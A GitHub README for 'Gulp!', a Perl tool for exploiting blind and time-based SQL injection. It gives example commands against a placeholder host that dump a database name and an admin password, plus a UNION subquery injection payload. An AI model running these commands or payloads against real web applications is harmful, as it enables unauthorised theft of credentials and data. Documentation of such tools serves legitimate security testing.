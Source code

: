 # Gulp! A Blind SQL Injection Exploiter

This is a small script I wrote to help investigating security vulnerabilities
in web applications. Code isn't perfect (quite hacked together if you ask me)
but it's quite functional and served me good when I was too lazy to find out how
to use similar tool in the wild and wrote one myself instead. It supports various
DBMS, most notably MySQL, and can exploit Blind SQL Injection by inspecting different
server responses. For completely blind SQL Injections Gulp! also support MySQL time-based
BENCHMARK attack. You can use Gulp! to dump every data you need, provided you know what
you are doing! Oh, and it's multithread too, just don't kill your target!

## Examples

```bash
./gulp -p "http://www.target.com/target_page.php" -r database() -g "<title>(.*)Logged In(.*)</title>" -q "action=Login&injectable_parameter=<{SQLi}>"
```

This command executes multiple GET requests to the target page injecting some SQL tricky code to perform simple binary checks and recovering the data you specified with the -r parameter (the name of the database in this example) one character at a time. Successfull
requests are determined by looking at the server response and searching for a specific string (or regular expression) given by the -g parameter. You need to specify the complete query string with the needed HTTP parameters. By adding the special placeholder string *<{SQLi}>* you set the place in your requests where Gulp! will insert its magic SQL code.

You can specify every valid SQL expression with the -r parameter as in the next example.

```bash
./gulp -p "http://www.target.com/target_page.php" -r "(SELECT password FROM users where username = 'admin')" -g "<title>(.*)Logged In(.*)</title>" -q "action=Login&injectable_parameter=<{SQLi}>"
```

Sometimes (always?) you will need to tweak the injected string to successfully exploit a vulnerability. Gulp! cannot do this by itself but you can always take advantage of the features of Gulp! moving the *<{SQLi}>* placeholder to fit your needs. This can be extremely effective but it will need some knowledge of SQL and SQL Injection attacks. This is a more complex example:

```bash
./gulp -p "http://www.target.com/target_page.php" -r "(SELECT password FROM users where username = 'admin')" -g "error" -q "action=Login&injectable_parameter=1 AND 1=(SELECT 1 FROM table UNION SELECT 2 from table WHERE 1=0 WHERE 1>0 <{SQLi}>)"
```

This is a classic attack pattern trying to generate a MySQL runtime error when the subquery returns more than one record. In fact if the condition injected by Gulp! on the second part of the UNION query is TRUE MySQL will produce an error and that's is the reason we are looking into the server output for the string "error".

## Features
- Multithread
- Supports MySQL, Access, PostegreSQL, Oracle Database
- Blind SQL Injection exploitation
- Time-based SQL injection exploitation (MySQL only)
- Multiplatform (tested in Linux and Windows)
- HTTP Proxy support

## Requirements

Bein a PERL script Gulp! requires Perl (of course). I recommend PERL >= 5.8, older
versions are not supported or tested. As usual there are also some dependencies to fulfill. Here the list of packages you will need. Just grab them from CPAN!

```perl
use HTTP::Request::Common;
use LWP::UserAgent;
use POSIX;
use Options;
use CGI::Enurl;
use URI;
```


## Further help

For further help you can issue this command on your favourite shell and look at all the options Gulp! offers.

```bash
./gulp -h
```

## TODO
- automatic iteration through multiple rows
- time-based: dynamically changing the required time for TRUE and FALSE requests to balance changes in the server workload
- character range prediction ( maybe )
- config file support

## Known Issues/Behaviour
- Doesn't support HTTPS
- You can't specify empty POST parameters.
- You can't use the characters "&" or "=" in your request content ( query parameter ) if you use POST method, you must urlencode them FIRST.
- When redirecting the received Set-Cookie header is used to set a Cookie header

## Disclaimer

Software is provided as is. You can use it as you wish, just be cool. You can also submit pull requests so we can make enhance Gulp!

## Developers

Gulp! main contributor is [Stefano Angaran][sangaran].
Join this list and send your pull request!

[sangaran]: https://github.com/oniric85 "Stefano Angaran's Github"

